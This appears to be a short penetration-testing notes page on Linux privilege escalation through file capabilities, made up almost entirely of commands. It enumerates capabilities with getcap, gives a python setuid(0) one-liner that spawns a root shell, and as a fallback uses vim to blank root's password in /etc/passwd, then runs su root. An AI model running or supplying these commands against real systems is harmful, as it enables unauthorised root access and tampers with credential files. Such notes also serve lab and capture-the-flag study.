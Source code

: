 # capability

get system capability

```
 getcap -r / 2>/dev/null 
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
usr/bin/python2.6  -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

***

> try to edit on `/etc/passwd` if the first case not work

```
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd

su root
```

<figure><img src="../../../.gitbook/assets/image 2 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
